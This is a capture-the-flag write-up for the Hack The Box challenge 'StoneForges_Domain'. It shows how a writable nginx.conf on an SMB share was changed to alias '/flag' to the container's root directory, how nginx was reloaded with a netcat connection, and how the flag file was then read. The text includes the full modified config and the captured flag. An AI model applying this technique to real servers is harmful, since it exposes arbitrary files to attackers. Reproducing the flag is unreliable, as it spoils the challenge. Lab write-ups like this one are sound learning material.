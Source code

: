 # Secure Code: **StoneForges_Domain**

## Overview

In this challenge, we exploited a misconfigured Nginx setup on a Docker container running a Flask application. Although direct path traversal was blocked, we had write access via an SMB share, which allowed us to modify the Nginx configuration. By adding a new location block, we exposed the container’s root filesystem, letting us access the flag file.

## Steps

### 1. Accessing the SMB Share

We mounted the SMB share that contained the configuration files. The share exposed the following directory structure:

```
config/
├── nginx.conf
├── postgresql.conf
└── supervisord.conf
```

Even though the files were owned by `root` with mode `755`, only `nginx.conf` was editable.

### 2. Modifying `nginx.conf`

We edited the `nginx.conf` file to add a new location block that serves files from the root filesystem. The modified configuration is shown below:

```nginx
user www-data;
pid /run/nginx.pid;
error_log /dev/stderr info;

events {
    worker_connections 1024;
}

http {
    server_tokens off;
    log_format docker '$remote_addr - $remote_user [$time_local] "$request" '
                      '$status $body_bytes_sent "$http_referer" '
                      '"$http_user_agent" "$http_x_forwarded_for"';

    access_log /dev/stdout docker;

    include /etc/nginx/mime.types;

    server {
        listen 3000;
        server_name _;

        charset utf-8;
        client_max_body_size 5M;

        location /static {
            alias /www/application/app/static/;
        }

        # New location block to expose the root filesystem.
        location /flag {
            alias /;
        }

        location / {
            proxy_pass http://127.0.0.1:8000;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_set_header X-Forwarded-Proto $scheme;
        }
    }
}
```

### 3. Triggering a Restart

After saving the modified `nginx.conf` via the SMB share, we triggered an Nginx restart. For example, by connecting to the appropriate restart endpoint:

```bash
nc 83.136.251.145 34603
```

This command caused Nginx to reload the new configuration.

### 4. Retrieving the Flag

With the new configuration in place, the flag file (placed at `/flag.txt` by the Dockerfile) became accessible via the URL:

```
http://83.136.251.145:59733/flag/flag.txt
```

Visiting this URL returned the flag:

```
HTB{W4LK1N9_7H3_570N3F0R93_P47H_45_R3QU1R3D_e300e8639b5e8cfcacd903a2f85bc286}
```

## Conclusion

By leveraging our write access to modify `nginx.conf`, we bypassed the restrictions imposed by the static file serving and path traversal protections. This allowed us to expose the root filesystem and retrieve the flag.

## Write-Up Credit: binchickens69 ```https://ctf.hackthebox.com/user/profile/605069```